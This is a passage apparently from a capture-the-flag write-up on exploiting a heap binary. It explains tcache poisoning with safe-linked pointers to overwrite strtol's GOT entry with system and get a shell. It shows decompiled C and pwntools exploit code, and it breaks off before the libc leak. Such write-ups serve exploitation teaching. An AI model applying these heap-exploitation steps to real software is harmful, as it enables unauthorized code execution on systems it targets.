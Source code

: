 Will overwrite _CCCCCC_'s `fd` pointer (pointing to _DDDDDD_) with an addess from the GOT table (must be **0x10 aligned**). It's necessary to safe-link that pointer.

A perfect fit GOT target entry to overwrite is `strtol`, as it gets called with **user-controlled first string parameter** in `pick_opt` function:

```c
void pick_opt(bool param_1) {
  long in_FS_OFFSET;
  char *null_ptr;
  char buf [8];
  long canary;
  
  canary = *(long *)(in_FS_OFFSET + 0x28);
  buf[0] = '\0';
  buf[1] = '\0';
  buf[2] = '\0';
  buf[3] = '\0';
  buf[4] = '\0';
  buf[5] = '\0';
  buf[6] = '\0';
  buf[7] = '\0';
  null_ptr = (char *)0x0;
  if (param_1) {
    printf("> ");
  }
  __isoc99_scanf("%7s%*c",buf);
  strtol(buf,&null_ptr,10);
  if (canary != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
}
```

Also the actual new `fd` address must be `0x20` bytes before the target GOT entry, as the description starts at offset `0x20` of the desk info struct (using desk description instead of name as it doesn't add the string terminator).

The target libc function used is `system`.

Here is the code to complete the attack and obtain a shell:

```py
protect_ptr = lambda pos, ptr: (pos >> 12) ^ ptr

VICTIM_CHUNK_HEAP_OFFSET = 0x14c00
add_listing_beta_insert(b'E'*6, flat(
    b'$RED'*59,
    b'E', # padding
    # end of struct:
    b'E'*8, # victim chunk's size field
    protect_ptr(heap_leak + (VICTIM_CHUNK_HEAP_OFFSET - HEAP_LEAK_OFFSET), exe.got['strtol']-0x20)
))

add_listing_beta_confirm()

# pop the victim chunk from the tcache linked list
add_listing_beta()
add_listing_beta_insert(b'F'*6, b'F'*8)
add_listing_beta_confirm()


# this chunk is being allocated at strtol@got-0x20
add_listing_beta()

# now leak libc base
```
